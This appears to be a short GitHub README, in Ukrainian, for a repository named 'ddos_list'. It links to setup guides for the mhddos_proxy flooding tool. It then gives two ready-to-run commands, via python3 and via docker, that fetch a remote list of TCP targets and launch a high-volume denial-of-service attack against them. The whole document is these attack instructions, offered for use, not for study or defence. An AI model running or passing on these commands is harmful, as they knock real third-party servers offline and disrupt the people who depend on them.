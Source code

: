 # ddos_list
Інтструкції:
1) https://ddosukraine.com.ua/instruction/
2) https://telegra.ph/mhddos-proxy-install-on-Linux-with-terminal-03-31

Команди:

python3 runner.py  -c https://raw.githubusercontent.com/olamor/ddos_list/main/tcp_l4_all.lst -t 2000 --rpc 1000 -p 350

docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest  -c https://raw.githubusercontent.com/olamor/ddos_list/main/tcp_l4_all.lst -t 2000 --rpc 1000 -p 350

